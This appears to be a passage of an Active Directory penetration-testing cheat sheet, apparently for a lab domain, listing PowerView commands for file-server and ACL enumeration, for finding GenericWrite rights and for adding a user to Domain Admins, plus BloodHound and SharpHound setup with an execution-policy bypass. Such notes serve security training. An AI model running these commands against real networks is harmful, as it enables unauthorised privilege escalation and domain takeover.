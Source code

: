 ## Get all fileservers of the domain
```bash
Get-DomainFileServer -Verbose
```

# Intro to ACL

## Get the ACLs associated with the specified object
```bash
Get-ObjectAcl -SamAccountName student1 -ResolveGUIDs
```

## GenericWrite for all users > under advanced > Write all properties
```bash
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603') }
```

## Add user to domain admin
```bash
net user student1 /domain; 
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'student1' -Domain "pentesting"; 
net user student1 /domain
```

# Active Directory Recon

Github : sens-of-security/ADRecon.ps1

# BloodHound

## Download Bloodhound GUI
https://github.com/BloodHoundAD/BloodHound/releases

## Download Neoj4
https://neo4j.com/download-center/#community

## Download SharpHound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
```bash
powershell -ep bypass
import-module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose -Domain pentesting
```

